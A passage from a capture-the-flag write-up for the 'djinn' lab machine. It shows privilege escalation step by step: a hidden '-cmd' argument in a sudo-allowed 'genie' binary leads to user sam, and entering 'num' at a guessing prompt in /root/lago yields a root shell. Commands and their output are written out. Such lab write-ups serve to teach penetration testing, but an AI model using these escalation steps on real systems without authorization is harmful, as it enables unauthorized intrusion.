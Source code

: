 As we can see, the argument `-cmd` exists in `strings` output, but not in the -h(elp) menu within `genie`.
Looks like a hidden argument. Let's give it a try:
```bash
nitish@djinn:~$ sudo -u sam /usr/bin/genie -cmd id
my man!!
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
```

We have escalated into the user *sam*.
Let's upgrade to /bin/bash and `sudo -l` as *sam*:
```bash
$ /bin/bash
sam@djinn:~$ sudo -l
Matching Defaults entries for sam on djinn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sam may run the following commands on djinn:
    (root) NOPASSWD: /root/lago
```

User *sam* can run `/root/lago/` with *root* permissions.
Looks like another binary program. Let's execute it:
```bash
sam@djinn:~$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:
```

This one took the most time for me to crack.  
Option 2 (Guess the number) gives us the following challenge:
```bash
Choose a number between 1 to 100:
Enter your number:
```

After messing around and trying different methods, i thought of entering 'num' instead of a number,
in order to confuse the program and create a situation where "num = num",
meaning we technically 'guessed' the number. To my surprise, it actually worked:
```bash
Choose a number between 1 to 100:
Enter your number: num
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
lago  proof.sh
```
